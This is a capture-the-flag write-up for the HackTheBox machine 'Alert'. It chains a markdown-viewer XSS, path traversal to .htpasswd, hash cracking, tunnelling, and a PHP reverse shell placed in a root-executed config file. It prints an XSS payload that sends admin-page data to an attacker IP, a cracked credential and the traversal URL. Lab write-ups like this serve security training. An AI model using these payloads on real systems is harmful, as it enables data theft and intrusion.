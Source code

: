 ## HackTheBox Machine
![alt text](/Machine_Labs/Alert/Images/image.png)

### Link: https://app.hackthebox.com/machines/Alert
-------------------------------------------------------

### RECON:
+ Scan open port in the machine:

```bash
$ nmap -sV -vv -A -T4 -p- alert.htb
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
| ssh-rsa 
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
| ecdsa-sha2-nistp256 
|   256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG/QUl3gapBOWCGEHplsOKe2NlWjlrb5vTTLjg6gMuGl
80/tcp    open     http    syn-ack     Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
12227/tcp filtered unknown no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

+ Enumerate the all directories:

```bash
$ gobuster dir -u http://alert.htb -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

/contact.php          (Status: 200) [Size: 24]
/css                  (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/messages             (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/messages.php         (Status: 200) [Size: 1]
/server-status        (Status: 403) [Size: 274]
/uploads              (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
```

+ Enumerate valid subdomain of `alert.htb`:

```bash
$ ./ffuf -u 'http://alert.htb' -H 'Host: FUZZ.alert.htb' -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -t 100 -fc 301
```
![alt text](/Machine_Labs/Alert/Images/image-1.png)

### XSS VULN:
+ In page `alert` - Markdown Viewer, we upload file `.md`. After checking all potential parameters can be XSS, we've found out that we can inject payload into file `.md` to pop up the alert XSS when view markdown.
+ We've prepared the payload `<script>alert(document.domain)</script>` and upload file `.md` to view markdown:

![alt text](/Machine_Labs/Alert/Images/image-3.png)

--> It work and the vuln XSS exist.

+ Check another pages, we notice in page `About us`:

![alt text](/Machine_Labs/Alert/Images/image-4.png)

--> It means that when we send contact messages and report then admin account will be auto checked. We can send messages in page `Contact` and capture the action of account administrators. Using the XSS Vuln to retrive sensitive information.

### GET INITIAL:
+ First we will generate payload XSS to retrive:

```js
<script>
fetch("http://alert.htb/index.php?page=messages")
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.14.29:8000/?data=" + encodeURIComponent(data));
})
</script>
```

***Note:*** When enumerating the directories, we found the hidden direc `messages` but we can not read information inside so we will use payload XSS to retrive informatio inside `messages`.

+ We open the local server:

```bash
$ sudo python3 -m http.server
[sudo] password for zicco: 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

+ Upload the payload `.md`, after upload normal we choose `Share Mardown` and get the share link:

![alt text](/Machine_Labs/Alert/Images/image-5.png)

+ Copy the `link_share` and send it in `Contact`:

![alt text](/Machine_Labs/Alert/Images/image-6.png)

+ After send it, we will check the local server will capture the action:

![alt text](/Machine_Labs/Alert/Images/image-7.png)

+ Decode the capture and we see the potential information:

![alt text](/Machine_Labs/Alert/Images/image-8.png)

--> Now we can see the hidden direct `Messages` and notice the line `<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>`. We are able to access the messages.php with parameter `file` to read deeper.

+ We will manipulate `messages.php?file=` to read root file of subdomain which we've found `statistics.alert.htb` and we have the `PATH=/var/www/statistics.alert.htb/`. 
+ We've known the file contain password we can find in root file that is `.htpasswd`. Combine with `Path Traversal` we'had the full path: `http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd`.
+ Edit payload, get the link_share, send it and capture again:

![alt text](/Machine_Labs/Alert/Images/image-9.png)

+ Decode the capture:

![alt text](/Machine_Labs/Alert/Images/image-10.png)

+ Crack the passwd. Put the full hash `$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/` in file .txt and use tool JohnTheRipper or Hashcat to bruteforce it:

![alt text](/Machine_Labs/Alert/Images/image-2.png)

--> We've had credential `albert:machesterunited`.

+ Login SSH:

![alt text](/Machine_Labs/Alert/Images/image-11.png)

### PRIVILEGE ESCALATION:
+ We can not run sudo. Using tool to enumerate vector priv and found the server port 8080 run local:

![alt text](/Machine_Labs/Alert/Images/image-12.png)

+ Check again `/opt`, we've known server is running port 8080 is `webstie-monitor`:

![alt text](/Machine_Labs/Alert/Images/image-13.png)

+ Website is monitoring 2 pages `alert.htb` and `statistics.alert.htb`:

![alt text](/Machine_Labs/Alert/Images/image-14.png)

+ Curl port 8080 we can read it but can not access directly:

![alt text](/Machine_Labs/Alert/Images/image-15.png)

+ We can use `Tunnel` to access port 8080. With myself, we use tool [Chisel](https://github.com/jpillora/chisel) to create TCP tunnel over HTTP to access port 8080.

+ In the attack machine, we open listener:

![alt text](/Machine_Labs/Alert/Images/image-16.png)

+ In target machine, we open:

![alt text](/Machine_Labs/Alert/Images/image-18.png)

+ Now we can access the page port 8080:

![alt text](/Machine_Labs/Alert/Images/image-19.png)

+ we can read /monitors/alert.htb:

![alt text](/Machine_Labs/Alert/Images/image-17.png)

+ Back again /opt/website-monitors, we've seen the potential directory `config`. The directory `config` can execute with both priv `root` and `management`
and file `configuration.php` is same. 
+ Check file `configuration.php` and we can overwrite it so we can create revershell and capture root. We will use payload webshell [PHP PentestMonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).
+ Edit file and save it. When save file, `configuration.php` will be auto executed and use Netcat to capture the revershell:

![alt text](/Machine_Labs/Alert/Images/image-20.png)

---------------------------------------------------------------------------------------------------